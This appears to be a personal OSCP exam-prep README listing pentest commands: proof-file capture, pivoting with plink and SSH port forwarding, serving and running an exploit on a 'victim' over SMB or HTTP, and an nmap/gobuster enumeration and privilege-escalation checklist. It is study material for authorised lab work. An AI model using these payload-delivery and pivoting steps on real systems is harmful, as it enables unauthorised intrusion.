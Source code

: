# OSCP Prep Notes

Welcome to my learning notes for OSCP by OffensiveSecurity.

## Taking Proof files

### Windows

```
hostname && whoami && type C:\Documents and Settings\Administrator\Desktop\proof.txt && ipconfig /all
```

### Linux

```
hostname && whoami && cat /root/proof.txt && /sbin/ifconfig
```

## Pivoting

### Windows

Find running service which are listening to loopback only (i.e., 127.0.0.1 or LISTENING/LISTEN in thier status):

```
netstat -ano
```

For example, if MySQL found listen locally on 3306 we can use plink.exe to prefrom port forward to our machine:

```
C:\Windows\Temp> plink.exe -l root -pw toor 192.168.0.101 -R 3306:127.0.0.1:3306
```

Then in kali you could interact with database locally:

```
root@kali:~/#: mysql -u root -p 
```

The plink.exe could be found here: https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

### Linux

Use Local port forwarding technqiue with ssh command to as following:

```
alice@vcitimmachine:~/#: ssh -L 3306:127.0.0.1:3306 root@192.168.0.101
```

There are many techniques such as Remote port forwarding, Dynamic port forwarding and SSHuttle tool which might be useful for some cases :)

## Transferring files

### Rdesktop

If if had a remote dektop machine I used the following command to mount share folder:

```
root@kali:~/#: rdesktop 192.268.11.10 -r disk:share=/home/bayo/store
```

### SMB Share

In kali use Impacket to create local SMB Share:

```
root@kali:~/#: python /usr/share/impacket/examples/smbserver.py MyShare /
```

On victim machine execute my payload via SMB:

```
C:\> \\192.168.11.10\MyShare\exploit_kernerl.exe
```
### Python Server

On my kali machine, start the Python SimpleHTTPServer on port 80:

```
root@kali:~/#: python -m SimpleHTTPServer 8080
```

Then use powershell on victim machine / wget in linux to download my exploit.

## Methodology

1) Ports & Services Enumeration using NMAP

```
root@kali:~/#: nmap -sV -sC -p- <IP>
root@kali:~/#: nmap -sU --top-ports=50 <IP>
root@kali:~/#: nmap --script smb-vuln-* <IP>
root@kali:~/#: nmap -sV -T4 -p- <IP> (Quick method)
```

2) Enumerate web application

```
root@kali:~/#: gobuster dir -u <url> -w /usr/share/wordlist/directory-2.3-meduim.txt
root@kali:~/#: nikito -u <url>
```

3) Post Exploition

After gaining inital acsses to shell and prompt TTY shell, then running one of the following script to enumrate:

Windows:

- Powerup - https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- JAWS - https://github.com/411Hall/JAWS

Linux:

- LinEnum.sh - https://github.com/rebootuser/LinEnum
- LSE - https://github.com/diego-treitos/linux-smart-enumeration

If none of them works, move to manully search.

4) Priviliage esclation

Depend on the attack vector preform priviliage esclation.
